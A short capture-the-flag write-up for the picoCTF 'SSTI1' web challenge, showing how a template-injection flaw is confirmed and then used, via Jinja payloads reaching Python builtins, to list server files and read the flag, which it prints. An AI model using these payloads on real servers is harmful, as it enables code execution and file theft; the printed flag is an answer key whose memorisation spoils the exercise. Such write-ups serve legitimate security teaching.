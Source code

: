 # SSTI1
|Date|Category|Difficulty|
|--|--|--|
|2025-04-29|Web Exploitation|Easy|
## Task description
I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:56708/)!
## Solution 
The hint for this challenge is **Server Side Template Injection**
If we try `{{ 8*8 }}` payload in input area, we'll have a output `64`
Then we need to list directory:
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').listdir('.') }}
```
Output:
`['app.py', '__pycache__', 'flag', 'requirements.txt']`

Now lets read a `flag` file:
```python
{{ self.__init__.__globals__.__builtins__.open('flag').read() }}
```
## Flag
`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_753eca43}`
